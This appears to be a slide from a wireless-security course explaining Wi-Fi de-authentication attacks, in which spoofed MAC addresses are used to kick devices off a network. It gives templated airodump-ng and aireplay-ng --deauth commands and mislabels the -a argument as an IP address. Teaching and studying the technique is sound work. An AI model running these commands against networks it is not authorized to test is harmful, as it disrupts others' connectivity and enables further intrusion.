

# Pre Connection attack – De-Authentication Attack
De-Authentication Attack:
Purpose:
Disconnect any device authenticated w/ key
Spoof MAC address
Goal:
Hackers sends De-authentication packets to the router pretending to be the targeted machine by spoofing its MAC addresses. At the same time, the hackers send packets to the target machine [ pretending to be the router ] telling it to re-authenticate itself.

Command:

airodump-ng --CHANNEL <INT> --bssid <MAC_ADDRESS> --write <FOLDER NAME> <NAME OF MODE>
aireplay-ng --deauth <NUM OF PACKAGES> -a <IP ADDRESS> -c <DEVICE TO DISCONNECT> wlan0